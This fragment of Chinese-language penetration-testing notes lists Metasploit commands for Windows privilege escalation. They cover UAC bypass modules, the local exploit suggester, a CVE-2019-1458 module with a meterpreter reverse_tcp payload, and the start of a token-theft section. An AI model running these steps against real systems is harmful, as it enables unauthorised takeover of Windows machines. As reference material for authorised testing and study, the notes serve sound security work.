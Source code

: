 #### bypassuac_eventvwr

```msf
use exploit/windows/local/bypassuac_eventvwr
```

#### bypassuac_comhijack

```msf
use exploit/windows/local/bypassuac_comhijack
```

### Local_exploit_suggester

1. 得到普通用户权限，执行`getsystem`报错

2. 通过模块收集测试可提权模块

   ```msf
   use post/multi/recon/local_exploit_suggester
   set SESSION 7
   exploit
   ```

#### bypassuac_eventvwr

```msf
use exploit/windows/local/bypassuac_eventvwr
set session 7
set payload windows/x64/meterpreter/reverse_tcp
set target 1
run
```

#### bypassuac_dotnet_profiler

```msf
use exploit/windows/local/bypassuac_dotnet_profiler
set session 9
run
```

#### CVE-2019-1458-wiozardopium

```msf
use exploit/windows/local/cve_2019_1458_wizardopium
set session 1
run
```

### Token窃取

> Windows 有两种类型的 Token ：
>
> ·Delegation Token
>
> 授权令牌，用于交互会话登录 (例如本地用户直接登录、远程桌面登录)
>
> ·Impersonation Token
>
> 模拟令牌，用于非交互登录 (利用net use访问共享文件夹)
